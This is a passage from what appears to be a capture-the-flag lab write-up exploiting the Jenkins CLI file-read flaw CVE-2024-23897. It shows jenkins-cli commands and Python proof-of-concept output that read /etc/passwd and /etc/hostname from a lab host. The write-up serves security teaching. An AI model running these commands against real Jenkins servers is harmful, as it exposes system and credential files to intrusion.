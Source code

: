     ERROR: No such command 0xdf. Available commands are above.
    

Those command run as well:

    
    
    oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' who-am-i
    Authenticated as: anonymous
    Authorities:
      anonymous
    

From the advisory, I can try putting in a file reference:

![image-20240209171545905](../img/image-20240209171545905.png)

It’s trying to load `/etc/passwd` as arguments for the help command. The first
line is the command (`root`), and the next is an unexpected argument. That’s
partial file read for sure. For one line files, this is enough (adding an
extra arg, in this case “a”, makes the output much shorter):

    
    
    oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/etc/hostname' a
    
    ERROR: Too many arguments: a
    java -jar jenkins-cli.jar help [COMMAND]
    Lists all the available commands or a detailed description of single command.
     COMMAND : Name of the command (default: 0f52c222a4cc)
    

The hostname is “0f52c222a4cc”.

#### Python POCs

There are Python POCs out there on GitHub that will do a similar thing. They
don’t really add anything over the JAR file, so I prefer that method. They do
work to make similar output:

    
    
    oxdf@hacky$ python CVE-2024-23897/poc.py  http://10.10.11.10:8080/ /etc/passwd
    REQ: b'\x00\x00\x00\x06\x00\x00\x04help\x00\x00\x00\x0e\x00\x00\x0c@/etc/passwd\x00\x00\x00\x05\x02\x00\x03GBK\x00\x00\x00\x07\x01\x00\x05zh_CN\x00\x00\x00\x00\x03'
    
    RESPONSE: b'\x00\x00\x00\x00\x01\x08\n\x00\x00\x00K\x08ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n\x00\x00\x00\x1e\x08java -jar jenkins-cli.jar help\x00\x00\x00\n\x08 [COMMAND]\x00\x00\x00\x01\x08\n\x00\x00\x00N\x08Lists all the available commands or a detailed description of single command.\n\x00\x00\x00J\x08 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)\n\x00\x00\x00\x04\x04\x00\x00\x00\x02'
    